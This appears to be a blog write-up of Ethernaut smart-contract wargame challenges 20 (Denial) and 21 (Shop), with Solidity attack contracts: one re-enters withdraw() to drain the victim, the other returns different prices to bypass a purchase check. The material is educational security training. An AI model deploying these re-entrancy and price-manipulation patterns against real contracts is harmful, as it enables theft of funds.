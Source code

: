 ```yaml
---
layout: post
title:  Ethernaut challenges writeup Part V (Challenges 20 and 21).
excerpt_separator: <!--more-->
category: DeFi
---
```


Hello there! Today's post covers solutions for [Ethernaut](https://ethernaut.openzeppelin.com/) challenges 20 and 21.

<!--more-->

# Challenges write up

## Denial

I solved this level exploiting the fact that the contract it is vulnerable to re-entrancy attacks. As it is possible to see, it does not implement any protection against these attacks. I analyzed function `withdraw()` and quickly saw that it used a low level `call` on `partner`. This was similar to previous level [King](https://nahueldsanchez.com.ar/Solving-Ethernaut-Challenges-08-12/) but this time the contract did not care about the result of the sending operation, so it was not possible to solve it in the same way. But as you may know, unless specified, `call` forwards all the remaining Gas to the called contract. In this case, we can exploit this in two ways:

1. Using reentrancy
2. Creating an Out Of Gas exception

I used option 1 and created a contract that in it's `receive` function it performed another call to `withdraw`, exploiting the re-entrancy issue. I set this malicious contract as partner and started the attack issuing a `withdraw()`.

It's interesting to mention the Note provided while solving the level:

```
Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.
```

Based on this I understand that if the vulnerable contract had less code to execute after the `CALL` instruction it could be not affected (and thus not solvable).

### Further Reading

- Secure Ether Transfer - https://fravoll.github.io/solidity-patterns/secure_ether_transfer.html
- Solidity - Transfer vs send vs call function - https://medium.com/coinmonks/solidity-transfer-vs-send-vs-call-function-64c92cfc878a
- Why using assert, since it would consume all gas - https://ethereum.stackexchange.com/questions/27812/why-using-assert-since-it-would-consume-all-gas
- Recommendations for Smart Contract Security in Solidity - https://ethereum-contract-security-techniques-and-tips.readthedocs.io/en/latest/recommendations/

### Solution source code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IDenial {
    function withdraw() external payable;
}

contract DenialTest {

    address victim;

    constructor(address _victim) public {
        victim = _victim;
    }

    // allow deposit of funds
    receive() external payable {
        IDenial(victim).withdraw();
    }

    function attack() public {
        IDenial(victim).withdraw();
    }

}
```

## Shop

Level similar to "Elevator", in this case we can leverage the state change in the variable `isSold` in the `Shop` contract and based on that determine which price we want to return. If we see `isSold` set to `false` we know that the seller contract is asking the price to perform the verification `_buyer.price() >= price` then, we return a price higher or at least equal to `price` (100). Once the verification is done `isSold` is set to `true`. The issue relies on the fact that the Seller contract ask for the price again, and this time, the buyer contract can return a different value. I coded this solution in my contract below.

Regardless of this, the underlying issue is that contracts should not trust in other contracts and change their state based on untrusted logic.

### Solution source code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IShop {
    function buy() external;
    function isSold() external returns (bool);
}

contract Buyer {
    uint public _price1 = 100;
    uint public _price2 = 1;
    address shop;

    constructor(address _shop) public {
        shop = _shop;
    }

    function price() public returns (uint) {
        if(!IShop(shop).isSold()) {
            return _price1;
        } else {
            return _price2;
        }
    }

    function buy() public {
        IShop(shop).buy();
    }
}
```


